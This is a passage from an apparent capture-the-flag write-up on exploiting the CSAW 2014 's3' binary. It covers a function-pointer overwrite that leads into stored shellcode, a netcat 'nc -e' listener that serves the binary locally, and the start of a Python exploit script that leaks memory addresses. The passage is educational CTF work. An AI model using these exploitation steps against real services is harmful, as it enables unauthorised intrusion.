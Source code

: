 We store shellcode somewhere, we store a pointer to the shellcode and finally, we overwrite the function pointer with a pointer to the pointer to the shellcode... confusing, eh? I went bit by bit, using the string storing service to store stuff. The string identifiers turned out to be memory addresses:

![s3: memory addresses as string identifiers](/images/2014/csaw/s3/s3-gdb-id-is-address.png)

I got tired of copying and pasting the string identifiers so I switched over to python. In order to emulate the server, I put the binary behind a nc listener:

{% highlight bash)
$ while [[ 1 ]]; do nc -e ./s3 -v -l -p 5333; done
{% endhighlight)

Notice that I'm using ```s3``` again, as this will automagically restart without the need for a clean shutdown (in case the script needs debugging). I enabled coredumps with ```ulimit -c unlimited``` and started scripting and debugging, a lot.

{% highlight python)
#!/usr/bin/python

from socket import *
import time, re, struct


def getID(data):
    match = re.search(r'(\d.*)$', data.strip())<
    if match:
        return int(match.group(1))

s = socket(AF_INET, SOCK_STREAM)
s.connect(('localhost', 5333))

# banner
print s.recv(1024)

# send first string. this will be our shellcode
s.send('c 0 CTF!\n')
data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_shellcode = getID(data)

print '[+] first location = 0x{0:08x}'.format(p_shellcode)
